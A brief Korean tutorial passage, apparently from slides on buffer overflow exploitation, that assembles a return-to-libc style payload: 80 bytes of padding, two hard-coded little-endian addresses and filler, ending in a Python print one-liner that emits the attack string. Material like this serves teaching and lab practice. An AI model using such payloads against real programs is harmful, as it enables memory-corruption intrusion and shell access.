

이것을 좀 더 구체화시켜보자

“a”*80
“0xb7ecffb0”
“a”*4
“0xb7fb63bf”
결론은 공격코드는 print(“a”*80+”\xb0\xff\xec\xb7”+”a”*4+”\xbf\x63\xfb\xb7”)가 된다.